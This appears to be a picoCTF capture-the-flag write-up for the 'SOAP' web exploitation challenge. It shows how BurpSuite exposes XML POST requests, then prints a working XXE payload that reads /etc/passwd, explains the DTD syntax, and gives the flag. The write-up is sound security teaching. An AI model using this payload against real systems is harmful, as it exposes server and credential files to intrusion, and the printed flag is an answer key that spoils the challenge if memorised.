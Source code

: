 # SOAP - web exploitation

## Case: 

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

## Solve:

Viewing the provided website, three buttons can be clicked. Monitoring the websites behaviour in BurpSuite shows that for each button pressed, XML code is sent to the server in a POST request with a specified ID which determines the output:

![SOAP1](https://github.com/user-attachments/assets/6d200473-701d-41c0-9e61-ce93dc3c3ea1)


This suggests an XXE attack may be possible. I send the POST request to the Repeater and adjust the code with the /etc/passwd folder set as the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE any [<!ENTITY payload SYSTEM "/etc/passwd"> ]>

<data><ID>&payload;</ID></data>
```
> - Document Type Definition (DTD) specifies the structure, rules and entities used within the XML document
> - Square brackets [] define subset of DTD. This subset defines additional entities that can be used in the document
> - `<!ENTITY payload SYSTEM "/etc/passwd">` declares an external entity named payload 
> - &payload; replaces the ID with the contents of /etc/passwd

The XXE attack is a success:

![SOAP2](https://github.com/user-attachments/assets/e3e1adb7-4193-48e2-80f0-16eee679547d)


And we can see the flag:

`picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}` 
